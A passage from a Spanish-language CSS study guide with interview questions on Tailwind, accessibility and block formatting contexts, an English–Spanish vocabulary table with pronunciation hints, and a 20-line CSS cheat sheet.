:::

::: desplegable ❓ ¿Tailwind no es lo mismo que estilos en línea?
No. Tailwind usa clases que sí soportan `:hover`, media queries (`md:`), modo oscuro (`dark:`), y salen de una escala de diseño limitada (consistencia). El CSS final solo incluye las clases usadas. Los estilos en línea no admiten pseudo-clases ni media queries y tienen especificidad máxima.
:::

::: desplegable ❓ ¿Cómo harías accesible un componente visualmente?
Contraste mínimo 4.5:1 en texto (3:1 en texto grande y controles), foco visible con `:focus-visible`, no transmitir información solo por color, áreas táctiles suficientes, que funcione con zoom 200% y a 320px de ancho, respetar `prefers-reduced-motion` y mantener el orden visual igual al del HTML.
:::

::: desplegable ❓ ¿Qué es un BFC (block formatting context)?
Una región donde las cajas de bloque se colocan de forma independiente del exterior: contiene sus floats, sus márgenes no colapsan con los de fuera. Se crea con `display: flow-root`, `overflow` distinto de `visible`, flex/grid items, `position: absolute`, entre otros. Es la explicación de muchos "arreglos mágicos" antiguos como el clearfix.
:::

🇬🇧 Frases útiles en entrevista: **"It depends on whether the layout is one- or two-dimensional"** (depende de si el layout es de una o dos dimensiones) · **"I'd avoid !important and lower the specificity instead"** · **"I'd animate transform and opacity to stay on the compositor"**.

## 🇬🇧 Vocabulario y resumen final

| English | Suena | Español |
|---|---|---|
| cascade | /kaskéid/ | cascada |
| specificity | /spesifísiti/ | especificidad |
| inheritance | /injéritans/ | herencia |
| box model | /boks módel/ | modelo de caja |
| padding / margin | /páding/ /márjin/ | relleno / margen |
| main axis / cross axis | /méin áksis/ | eje principal / cruzado |
| wrap | /rap/ | saltar de línea |
| track | /trak/ | pista (fila o columna) |
| stacking context | /stáking kóntekst/ | contexto de apilamiento |
| breakpoint | /bréikpoint/ | punto de quiebre |
| viewport | /viúport/ | área visible |
| hue / chroma | /jiú/ /króuma/ | tono / croma |
| custom property | /kástom próperti/ | variable CSS |
| keyframe | /kíifreim/ | fotograma clave |
| easing | /ísing/ | curva de aceleración |
| layout shift | /léiaut shift/ | salto de diseño |
| nesting | /nésting/ | anidado |
| utility class | /iutíliti klas/ | clase utilitaria |
| headless | /jédles/ | sin estilos |
| progressive enhancement | /progrésiv enjánsment/ | mejora progresiva |

### 📌 La chuleta en 20 líneas

- `*, *::before, *::after { box-sizing: border-box; }` :: Primera línea de todo proyecto
- `(A,B,C)` :: Ids, clases/atributos/pseudo-clases, etiquetas; compara de izquierda a derecha
- `@layer reset, base, componentes, utilidades;` :: Orden de la cascada a mano
- `:where()` / `:is()` / `:has()` :: Peso 0 / peso del más fuerte / selector padre
- `rem / px / % / fr / ch / dvh` :: Texto / bordes / anchos / anchos grid / lectura / altos
- `clamp(min, ideal, max)` :: Tipografía y espacios fluidos
- `display: flex; gap: 1rem; align-items: center;` :: Fila de cosas
- `flex: 1; min-width: 0;` :: Hijo flexible que no desborda
- `margin-left: auto` :: Empujar al extremo en flex
- `grid-template-columns: repeat(auto-fit, minmax(220px, 1fr));` :: Grid responsive sin media queries
- `grid-template-areas` :: Layout de página dibujado con palabras
- `place-items: center` :: Centrar en grid
- `.padre { position: relative; }` :: Referencia para hijos `absolute`
- `isolation: isolate` :: Stacking context a propósito
- `@media (width >= 768px)` :: Mobile-first
- `@container (width >= 450px)` :: Componente que mira a su caja
- `oklch()` + `color-mix()` :: Paletas parejas y variantes sin calcular a mano
- `light-dark()` + `color-scheme` :: Tema claro/oscuro corto
- `transform` + `opacity` :: Lo único que conviene animar
- `:focus-visible` + contraste 4.5:1 + `prefers-reduced-motion` :: Accesibilidad mínima

💡 Consejo: el camino recomendado: **cascada y caja → Flexbox → Grid → responsive → variables/temas → animaciones → herramientas**. Construye un proyecto real (tu portafolio) usando cada sección; DevTools abierto siempre.
